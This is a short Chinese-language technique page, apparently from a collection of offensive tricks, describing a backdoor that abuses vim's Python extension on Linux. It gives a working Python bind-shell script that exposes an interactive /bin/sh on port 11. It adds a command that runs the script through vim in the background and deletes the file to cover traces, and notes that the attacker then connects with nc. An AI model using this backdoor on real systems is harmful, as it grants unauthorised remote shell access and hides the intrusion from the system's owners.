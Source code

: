 ```yaml
---
title: "vim python 拓展后门"
id: zhfly3493
---
```


# vim python 扩展后门

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统。可以通过vim的pyfile来执行python脚本。这里我复现使用了docker centos 6.8，yum默认安装的vim。下面的pdf是发现者对外公开的思路：

> https://github.com/ianxtianxt/WOTD

这里我们使用一个python开启本地监听11端口的脚本。 POC:

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True) 
```

```
$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py 
```

执行以后：

![image](../img/f0d0ea2865d9d8b8e9a0795e3b91ae5c.png)

![image](../img/f674d1ac7b3fe5795ee7e3ff00b175d2.png)

我在攻击机nc连接过去就可以了。